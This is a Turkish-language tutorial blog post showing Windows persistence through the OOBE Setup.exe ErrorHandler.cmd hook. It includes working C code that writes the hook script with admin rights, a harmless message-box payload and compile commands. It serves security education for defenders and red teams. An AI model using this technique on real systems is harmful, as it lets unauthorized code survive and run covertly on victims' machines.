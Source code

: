 \newpage
\subsection{88. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 22. Windows Kurulumu. Basit C++ örneği.}

﷽

![pers](./images/104/2023-07-17_00-13.png){width="80%"}    

Bu gönderi, kötü amaçlı yazılımlarda kalıcılık sağlamak için kullanılabilecek en ilginç yöntemlerden biri olan **Windows Kurulum betiği** yöntemine dayanmaktadır.    

### kurulum betiği

`C:\WINDOWS\system32\oobe\Setup.exe`, Windows işletim sisteminde bulunan bir çalıştırılabilir dosyaydır. `oobe` dizini, *"Out Of Box Experience"* (Kutudan Çıkma Deneyimi) anlamına gelir ve Windows'un ilk kurulumu sırasında kullanıcıların hesap oluşturma, tercihleri ayarlama, varsayılan ayarları seçme gibi adımları tamamlamasını sağlar.    

![pers](./images/104/2023-07-16_22-58.png){width="80%"}    

Görünüyor ki, eğer zararlı yüklenici dosyanızı `c:\WINDOWS\Setup\Scripts\ErrorHandler.cmd` konumuna yerleştirirseniz, `c:\WINDOWS\system32\oobe\Setup.exe` bir hata meydana geldiğinde bunu yükleyecektir.     

### pratik örnek

Haydi pratik bir örneğe bakalım. Öncelikle, her zamanki gibi, "kötü" uygulamamızı oluşturalım. Basitlik açısından, yine `meow-meow` mesaj kutusu "kötü amaçlı yazılımı" kullanıyoruz (`hack.c`):  

```cpp
/*
hack.c
windows kalıcılık için kötü uygulama
yazar: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Ardından, kalıcılık için `ErrorHandler.cmd` dosyasını oluşturalım:      

```powershell
@echo off
"C:\Users\user\Desktop\research\2023-07-16-malware-pers-22\hack.exe"
```

Görebildiğiniz gibi, mantık oldukça basit.    

### demo

Haydi her şeyi adım adım inceleyelim. Öncelikle, "kötü amaçlı yazılımımızı" derleyelim:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-16_23-47.png){width="80%"}    

Ardından, `ErrorHandler.cmd` dosyamızı `C:\Windows\Setup\Scripts\` klasörüne taşıyalım:     

![pers](./images/104/2023-07-17_00-10.png){width="80%"}    

Tamam, sonraki adımda, `Setup.exe` dosyasını bir hata ile çalıştırmamız gerekiyor. En basit yöntem, `Setup.exe` dosyasını herhangi bir argüman olmadan çalıştırmaktır:     

```powershell
.\Setup.exe
```

![pers](./images/104/2023-07-17_00-13_1.png){width="80%"}    

Eğer `Process Hacker`ı açar ve `hack.exe` dosyasının özelliklerine bakarsak:     

![pers](./images/104/2023-07-17_01-52.png){width="80%"}    

Ana sürecin `cmd.exe (7264)` olduğunu fark edebiliriz,       

![pers](./images/104/2023-07-17_01-53.png){width="80%"}    

Bunun ana süreci ise `Setup.exe (4876)` olarak görünmektedir:     

![pers](./images/104/2023-07-17_01-53_1.png){width="80%"}    

Gördüğünüz gibi, kalıcılık mantığımız mükemmel çalışıyor! =^..^=

### pratik örnek 2. kalıcılık betiği

Deneyin tamamlanması adına `pers.c` dosyasını oluşturdum:     

```cpp
/*
pers.c
Windows Kurulumu üzerinden kalıcılık
yazar: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  // klasörü oluştur (eğer yoksa)
  if (!CreateDirectory("C:\\WINDOWS\\Setup\\Scripts", NULL)) {
    DWORD error = GetLastError();
    if (error != ERROR_ALREADY_EXISTS) {
      printf("Dizin oluşturulamadı. Hata: %lu\n", error);
      return -1;
    }
  }

  // dosyayı yazmak için aç
  HANDLE hFile = CreateFile("C:\\WINDOWS\\Setup\\Scripts\\ErrorHandler.cmd", 
  GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("ErrorHandler dosyası oluşturulamadı. Hata: %lu\n", GetLastError());
    return -1;
  }

  // dosyaya yazılacak içerik
  const char* data = "@echo 
off\n\"C:\\Users\\user\\Desktop\\research\\2023-07-16-malware-pers-22\\hack.exe\"";

  // içeriği dosyaya yaz
  DWORD bytesWritten;
  if (!WriteFile(hFile, data, strlen(data), &bytesWritten, NULL)) {
    printf("ErrorHandler dosyasına yazılamadı. Hata: %lu\n", 
    GetLastError());
  }

  // dosya tanımlayıcısını kapat
  CloseHandle(hFile);
  return 0;
}
```

Bu programın **yönetici yetkileriyle** çalıştırılması gerektiğini unutmayın. Çünkü `C:\\WINDOWS` altında bir dizin ve dosya oluşturmaya çalıştığından, bunun için **yönetici ayrıcalıkları** gerekmektedir.     

![pers](./images/104/2023-07-17_02-12.png){width="80%"}    

### demo 2

Haydi her şeyi adım adım inceleyelim. Kalıcılık betiğimizi derleyelim:      

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-17_02-07.png){width="80%"}    

Ardından, hedef makinede **yönetici yetkileriyle** çalıştıralım:     

```powershell
.\pers.exe
```

![pers](./images/104/2023-07-17_02-13.png){width="80%"}    

Benim durumumda, çalıştırmadan önce bu klasörü sildim:    

![pers](./images/104/2023-07-17_02-10.png){width="80%"}    

Ardından, `Setup.exe`'yi tekrar çalıştıralım:    

![pers](./images/104/2023-07-17_02-15.png){width="80%"}    

![pers](./images/104/2023-07-17_02-15_1.png){width="80%"}    

Mükemmel! =^..^=    

### sonuç

Bu, bir yükleyici paket için yaygın bir dosya adıdır. Bu durumda, Windows'un kurulum ve başlatma sürecinin bir parçasıdır. 
Işletim sistemi kurulumu sırasında ve özellikleri veya bileşenleri eklerken ya da değiştirirken kullanılır.     

Ancak, görebildiğiniz gibi, Windows işletim sisteminin meşru bir parçası olmasına rağmen, kötü amaçlı programlar bazen kendilerini `Setup.exe` olarak adlandırarak algılanmaktan kaçabilirler.      

Ayrıca, `c:\WINDOWS\system32\oobe\` klasörü içerisinde başka dosyalar da vardır:      

![pers](./images/104/2023-07-16_22-59.png){width="80%"}    

Bunları kontrol etmedim.     

Bu yöntem daha önce [hexacorn](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/) tarafından araştırılmıştır:

![pers](./images/104/2023-07-17_02-26.png){width="80%"}    

Ben sadece C dilinde basit bir PoC kodunu (`pers.c`) gösterdim.     

Umarım bu gönderi, mavi takım üyelerinin bu teknik hakkında farkındalığını artırır ve kırmızı takım üyelerinin cephaneliğine bir silah ekler.      

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/)      
[https://twitter.com/Hexacorn/status/1482484486994640896](https://twitter.com/Hexacorn/status/1482484486994640896)     
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2023-07-16-malware-pers-22)     
